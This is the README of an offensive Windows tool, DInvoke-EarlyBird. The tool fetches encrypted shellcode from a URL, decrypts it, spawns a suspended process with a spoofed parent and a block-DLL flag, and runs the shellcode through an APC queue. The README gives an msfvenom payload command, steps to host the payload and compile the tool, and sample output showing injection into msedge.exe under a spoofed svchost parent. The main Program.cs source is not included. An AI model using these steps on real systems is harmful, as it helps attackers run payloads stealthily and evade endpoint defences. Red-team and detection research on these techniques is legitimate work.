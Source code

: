 # DInvoke-EarlyBird
Early Bird process injection and PPID spoofing technique using DInvoke.

- Fetch shellcode from URL.
- Extract the key from the encrypted shellcode and decrypt it.
- Spawn a target process in suspended state.
  - Using PPID spoofing.
  - Using block dll flag: DLL which has not been signed by Microsoft and attempt to be loaded into the process, will fail.
- Execute shellcode via APC Queue.

# Usage
1. Create and encrypt your shellcode:
```bash
> msfvenom -p windows/x64/exec CMD=calc.exe -f raw > calc.bin
> python3 encrypt calc.bin
[+] Saved encrypted file as encrypted.bin (Size: 304 bytes)
```
2. Host the encrypted payload:
```bash
> python3 -m http.server 80 
```
3. Adjust the line 35 of `Program.cs` to reflect your environment.
4. Compile and run:
```bash
PS> csc /unsafe Program.cs
```

# To-Do
- Implement a process integrity check for PPID spoofing:  
~Currently the PPID spoofing is retrieving a handle to the process specified without checking its integrity. If you are a low-privilege user and try to get a handle to a high privilege process, the program may crash due to access violation.~  
Currently the PPID spoofing is trying to get a handle to all process specified without checking its integrity. This should solve issues when there are multiple processes with different integrity levels. Not ideal, but it works for now.  
For example, specifying `svchost` as a parent:
```
C:\Code\DInvoke-EarlyBird>Program.exe
[i] Trying to get a handle to: svchost
        [-] Error getting handle for svchost (PID: 976): Access is denied
        [-] Error getting handle for svchost (PID: 528): Access is denied
        [-] Error getting handle for svchost (PID: 1752): Access is denied
        [-] Error getting handle for svchost (PID: 9236): Access is denied
        [-] Error getting handle for svchost (PID: 3124): Access is denied
        [-] Error getting handle for svchost (PID: 2532): Access is denied
        [-] Error getting handle for svchost (PID: 1348): Access is denied
        [-] Error getting handle for svchost (PID: 1736): Access is denied
        [-] Error getting handle for svchost (PID: 7560): Access is denied
        [-] Error getting handle for svchost (PID: 2912): Access is denied
        [-] Error getting handle for svchost (PID: 3804): Access is denied
        [-] Error getting handle for svchost (PID: 2120): Access is denied
        [-] Error getting handle for svchost (PID: 4680): Access is denied
        [-] Error getting handle for svchost (PID: 2512): Access is denied
        [-] Error getting handle for svchost (PID: 1916): Access is denied
        [-] Error getting handle for svchost (PID: 2896): Access is denied
[+] Successfully obtained handle: svchost (PID: 4076)
[*] Spawned Target Process: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
        [*] Parent Process: svchost (PID: 4076)
        [*] Process ID: 1432
        [*] Written to Address: 0x14022B50000
        [*] Protection changed to RX
[*] APC called
        [*] Thread resumed, done.
```

# References
- https://github.com/TheWover/DInvoke
- https://github.com/rasta-mouse/DInvoke
- https://offensivedefence.co.uk/posts/ppidspoof-blockdlls-dinvoke/
- https://github.com/Octoberfest7/OSEP-Tools
- https://trustedsec.com/blog/ppid-spoofing-its-really-this-easy-to-fake-your-parent
